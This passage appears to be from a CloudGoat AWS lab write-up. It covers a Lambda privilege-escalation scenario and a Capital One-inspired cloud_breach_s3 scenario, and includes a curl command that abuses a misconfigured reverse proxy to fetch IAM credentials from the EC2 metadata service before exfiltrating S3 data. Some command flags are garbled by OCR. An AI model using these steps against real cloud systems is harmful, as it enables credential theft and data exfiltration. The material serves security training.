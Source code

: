 ```bash
    -—region $AWS_REGION

# Invoke the Lambda function created. If successful, it will return a status code of 200.
aws lambda invoke \
    -–function-name admin_function output.txt \
    -–profile $LambdaROFILE \
    -—region $AWS_REGION


# ------------- 8. Confirm if the IAM user – Chris has the new role attached to his profile:
aws iam list-attached-user-policies \
    –-user-name $USERNAME \
    -–profile $SRC_PROFILE


# ------------- 9. To destroy the resources created during this lab:
./cloudgoat.py destroy lambda_privesc


```



---


### Scenarios 3: cloud_breach_s3 (Small / Moderate)

| ++             | ++                                                                                                                                                      |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Scenario Goal  | Acquire full admin privileges.                                                                                                                          |
| Size           | Small                                                                                                                                                   |
| Difficulty     | Easy                                                                                                                                                    |
| Command        | `$ ./cloudgoat.py create cloud_breach_s3`                                                                                                               |
| lesson learned | <font color=red> misconfigured reverse-proxy server </font>  `curl https://$EC2IP/latest/meta-data/iam/security-credentials -H ‘Host: 169.254.169.254’` |


> Introduction
> This scenario is inspired by the Capital One breach.
> 2019, a bad actor accessed data stored in AWS S3 buckets owned by Capital One and posted the exfiltrated data on GitHub. The bad actor gained access to the S3 bucket by exploiting a misconfigured AWS service (in this case it seems to be a firewall) to run commands on the Elastic Cloud Compute (EC2) Instance.
> In addition, the EC2 Instance also had an Identity and Access Management (IAM) role assigned, which allowed anyone who had access to the server to access AWS resources such as the AWS S3 buckets.

![scenario2-11](https://i.imgur.com/g2n9m9R.png)


Starting as an anonymous outsider with no access or privileges
- exploit a misconfigured reverse-proxy server
- to query the EC2 metadata service and acquire instance profile keys.
- Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

---